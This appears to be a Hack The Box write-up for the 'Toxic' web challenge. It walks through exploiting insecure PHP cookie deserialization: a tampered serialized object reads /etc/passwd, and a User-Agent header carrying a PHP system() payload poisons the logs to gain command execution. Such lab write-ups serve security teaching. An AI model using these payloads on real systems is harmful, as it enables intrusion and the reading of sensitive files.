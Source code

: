 # Toxic

webpage interface:
![image](https://github.com/IcariZ/HTB/assets/89731969/fb1baa77-12f5-4447-985f-80a3c75cc6da)

no input bar is given in the web.

looking at the source code under index.php we see that the web actually has a cookie in it. 

analyzing the flow of the code, the cookie is being serialized and encoded with base64 when the cookie is empty

but when it's not, it decodes with base64 and unserialized itself

so it is insecure deserialization where user can interact/tamper directly with the serialization

let's [decode](https://gchq.github.io/CyberChef/) the cookie from the web
``PHPSESSID:"Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9"`` 
we got -> ``O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}``

let's try to access ``/etc/passwd`` by tweaking the cookie to 
``O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}``

we get 
![image](https://github.com/IcariZ/HTB/assets/89731969/d6d3c475-cab0-42d5-a1ac-c8c7f10b8b15)

we can use log file poisoning to yield what is inside the machine with:
changing the user-agent from the header request with ``<?php system('ls /')?>``

![image](https://github.com/IcariZ/HTB/assets/89731969/b6429eb9-0bb4-4d2f-92e2-a5fa123cb5b7)

we get as a respond
![image](https://github.com/IcariZ/HTB/assets/89731969/69636579-2451-439f-8120-0ad5a82c81c1)



